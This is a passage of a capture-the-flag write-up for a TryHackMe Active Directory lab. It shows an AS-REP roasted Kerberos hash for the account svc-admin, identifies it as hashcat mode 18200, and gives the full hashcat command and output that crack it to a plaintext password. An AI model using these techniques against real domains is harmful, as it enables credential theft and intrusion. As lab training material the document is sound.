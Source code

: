 `svc-admin`

2. Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)

[https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)

![](./2020-10-17_11-17.png)

`Kerberos 5 AS-REP etype 23`

3. What mode is the hash?

`18200`

4. Now crack the hash with the modified password list provided, what is the user accounts password?

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ hashcat --force -m 18200 -a 0 svc-admin.hash /usr/share/wordlists/rockyou.txt
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-1650 v3 @ 3.50GHz, 512/1493 MB allocatable, 2MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:27ca0413dd02b080a5370b1114e15d26$9dbfc5b2a618fab698eedcb5022d7cf1a86735364938defc0f06aa73cc608748b84aa5e3735f3f8942ff12d54da014ddc485155c919c30fbc671b91b7c27a07c2c5ba6f9c4ef637812035f73642fb38d3509d61a244b16376adcb42a31feb91b24dc816b90cca74497e7fe4c8f8883ad3124005c197cccc68dcc4cc499eb462aba71b22892c6b9e9dd53339087f61ac74a20752aecbe82df48d22bd373bfda0254084c47e7046a1d26f02c062a1599f4133b93a55de6d8bcd83dfc87166ef8c53b229934249c88785628fb4012480f20556d35dace5bf67b05470f0215298d4c6d1fa2e218e8930e1f29437d390b230ef396:management2005

Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 AS-REP etype 23
Hash.Target......: $krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:27ca0413dd0...0ef396
Time.Started.....: Sat Oct 17 11:20:29 2020 (14 secs)
Time.Estimated...: Sat Oct 17 11:20:43 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   423.7 kH/s (7.51ms) @ Accel:48 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
```